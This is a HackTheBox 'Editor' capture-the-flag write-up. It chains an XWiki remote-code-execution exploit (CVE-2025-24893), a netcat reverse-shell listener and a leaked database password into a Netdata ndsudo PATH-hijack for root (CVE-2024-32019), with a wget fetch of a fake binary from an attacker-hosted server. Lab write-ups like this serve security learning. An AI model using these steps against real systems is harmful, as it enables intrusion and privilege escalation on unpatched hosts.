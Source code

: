 # HackTheBox - Editor (Write-up)

------------------------------------------------------------------------

## 🔍 Port Scan

``` bash
nmap -sV 10.10.11.80
```

Result:

    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
    80/tcp   open  http    nginx 1.18.0 (Ubuntu)
    8080/tcp open  http    Jetty 10.0.20
    9999/tcp open  abyss?

------------------------------------------------------------------------

## 💥 Exploitation of CVE-2025-24893 (XWiki RCE)

A critical vulnerability was found in XWiki:\
[Exploit -
CVE-2025-24893](https://github.com/Artemir7/CVE-2025-24893-EXP)

Successful test:

``` bash
python CVE-2025-24893.py -u http://wiki.editor.htb -c whoami
[+] Command Output:
xwiki
```

Reverse shell setup:

``` bash
nc -lvnp 4444
```

------------------------------------------------------------------------

## 🔑 Database Credentials

Credentials were leaked in `/etc/wiki/hibernate.cfg.xml`:

    username: xwiki
    password: theEd1t0rTeam99

------------------------------------------------------------------------

## 👤 Initial Access as Oliver

``` bash
oliver@editor:~$ cat user.txt
2739c3049d79c4f20eff7db04ea331f7
```

------------------------------------------------------------------------

## 🚀 Privilege Escalation via Netdata (CVE-2024-32019)

Checking local services revealed that **Netdata** was running on port
`19999`.\
To access it, I created an SSH tunnel:

``` bash
ssh -L 19999:127.0.0.1:19999 oliver@10.10.11.80
```

When opening the Netdata web panel, a warning appeared indicating the
version was outdated --- a strong hint of a known vulnerability.\
Reference: [Netdata
Advisory](https://github.com/netdata/netdata/security/advisories/GHSA-pmhq-4cxq-wj93)

This vulnerability affects the `ndsudo` binary, which can be exploited
due to an insecure `PATH` environment variable.\
By creating a fake `nvme` binary, it is possible to achieve **Local
Privilege Escalation (LPE)**.

Example workflow:

1.  Host the fake binary:

``` bash
python3 -m http.server 5000
```

2.  Download it on the target:

``` bash
wget http://10.10.15.14:5000/nvme
chmod +x /tmp/nvme
```

3.  Inject into PATH and trigger exploit:

``` bash
export PATH=/tmp:$PATH
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

Result: root shell obtained.

``` bash
root@editor:/home/oliver# id
uid=0(root) gid=0(root) groups=0(root),999(netdata),1000(oliver)

root@editor:/home/oliver# cat /root/root.txt
99b89e8afa5...
```

------------------------------------------------------------------------

## 🏁 Summary

-   ✅ Identified open services with **nmap**\
-   ✅ Exploited **CVE-2025-24893** for RCE in XWiki\
-   ✅ Retrieved database credentials\
-   ✅ Gained initial access as **Oliver**\
-   ✅ Exploited Netdata vulnerability (**CVE-2024-32019**) for
    privilege escalation\
-   ✅ Captured both `user.txt` and `root.txt`

```{=html}
<!-- -->
```
    Status: PWNED 🏴‍☠️
